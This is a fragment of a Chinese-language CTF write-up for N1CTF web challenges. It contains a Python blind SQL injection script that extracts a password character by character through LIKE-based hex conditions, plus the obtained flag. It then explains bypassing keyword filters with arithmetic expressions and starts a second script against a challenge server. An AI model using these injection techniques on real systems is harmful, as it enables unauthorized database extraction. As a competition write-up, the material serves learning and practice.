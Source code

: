 for j in "0123456789"+string.letters+"!@#$^&*(){}=+`~_":

data = {

"flag":"233333",

"hi":urllib.unquote(" where (password like 0x%s25)"%(payload+hex(ord(j))[2:]))

}

r =requests.post(url=url,data=data)

if '233333' in r.content:

flag += hex(ord(j))[2:]

true_flag += j

print true_flag

data1 = {

"flag": "1",

"hi": " where 1"

}

s = requests.post(url=url,data=data1)

break

得到flag：N1CTF{he3l3locat233}

算是一道web签到题吧，侥幸手速快，拿了一血233333

77777 2

上一题的翻版，like，部分数字等较多可用均被过滤，发现括号，+，>还在

于是想到构造运算

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

此时的username>”a“为true

Id= 1+true

即为2，那么此处的update也可以用相同的方法

![f9fb202d8045](img/6256d70fdd00460a0ab9d591b1327f69.png)

注意url编码问题

于是可以写出脚本

import requests

import urllib

url = "http://47.52.137.90:20000/index.php"

flag = ""
